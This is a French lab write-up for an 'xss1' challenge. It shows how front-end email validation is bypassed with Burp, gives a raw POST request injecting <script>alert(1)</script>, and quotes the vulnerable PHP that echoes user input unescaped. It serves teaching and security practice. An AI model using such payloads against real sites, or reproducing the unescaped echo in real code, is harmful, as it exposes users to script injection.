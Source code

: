 # xss1

## Exploitation

Le premier challenge propose de renseigner son adresse email grâce à formulaire HTML :&#x20;

![](<../../../.gitbook/assets/image (7) (1).png>)

Le champ est de type `email` et possède donc une validation front :

```html
<input type="email" class="form-control" id="user_email" name="user_email" placeholder="email@site.com" required>
```

![](<../../../.gitbook/assets/image (14) (1).png>)

Pour injecter ma payload il me faudra contourner cette protection, ici en passant par Burp :&#x20;

```http
POST /xss1/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss1/

user_email=<script>alert(1)</script>&submit=Envoyer
```

L'injection fonctionne et la boite de dialogue s'affiche :&#x20;

![](<../../../.gitbook/assets/image (5) (2) (1).png>)

## Analyse du code source

L'analyse est ici plutôt simple, car le code PHP ne possède aucune protection et ne fait qu'afficher le contenu de la variable `$_POST['user_email']` via la directive `echo` :&#x20;

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['user_email'])) {
    $email = $_POST['user_email'];
  }
?>

<?php if (isset ($email) && !empty ($email)): ?>
  <div class="row">
    <p style="color:red;" class="well"><strong></strong><?php echo $email; ?> is not registered.</p>
  </div>
<?php endif; ?>
```
